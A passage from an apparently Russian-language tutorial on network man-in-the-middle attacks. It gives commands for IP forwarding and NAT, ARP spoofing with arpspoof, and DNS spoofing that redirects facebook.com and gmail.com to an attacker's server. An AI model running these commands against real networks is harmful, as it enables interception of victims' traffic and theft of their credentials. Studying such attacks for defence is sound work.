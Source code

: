- **Включение IP-форвардинга**:
  ```bash
  echo 1 > /proc/sys/net/ipv4/ip_forward
  ```

- **Настройка NAT с помощью iptables**:
  ```bash
  iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
  iptables -A FORWARD -i wlan1mon -o eth0 -j ACCEPT
  ```

### 6. ARP-спуфинг

![image](https://github.com/user-attachments/assets/a57fda89-429b-405a-9741-eb864e088a1f)


ARP-спуфинг (ARP Poisoning) — это метод атаки, при котором злоумышленник манипулирует ARP-таблицами устройств в локальной сети:

- **Принцип работы**: Злоумышленник отправляет поддельные ARP-сообщения, связывая свой MAC-адрес с IP-адресом шлюза или других устройств в сети. В результате трафик, предназначенный для этих устройств, перенаправляется на устройство атакующего.

- **Реализация с помощью Arpspoof**:
  ```bash
  arpspoof -i wlan1mon -t [IP-адрес жертвы] [IP-адрес шлюза]
  ```

- **Перенаправление трафика**: После успешного ARP-спуфинга весь трафик жертвы проходит через машину атакующего, что позволяет анализировать и модифицировать его.

### 7. DNS-спуфинг

![image](https://github.com/user-attachments/assets/88c3266f-09bb-4983-80dc-1ed4bb0a8578)


DNS-спуфинг — это атака, при которой злоумышленник манипулирует DNS-ответами, чтобы перенаправить жертву на поддельные веб-сайты:

- **Принцип работы**: Когда жертва запрашивает разрешение доменного имени в IP-адрес, атакующий перехватывает этот запрос и отвечает поддельным DNS-ответом, содержащим IP-адрес контролируемого злоумышленником сервера.

- **Настройка с помощью dnsmasq**:
  ```bash
  # Добавление в конфигурацию dnsmasq
  address=/facebook.com/192.168.1.1
  address=/gmail.com/192.168.1.1
  ```

- **Альтернативно с использованием dnsspoof**:
  ```bash
  dnsspoof -i wlan1mon -f hosts.txt
  ```
  где hosts.txt содержит записи вида:
  ```
  192.168.1.1 facebook.com
  192.168.1.1 gmail.com
  ```
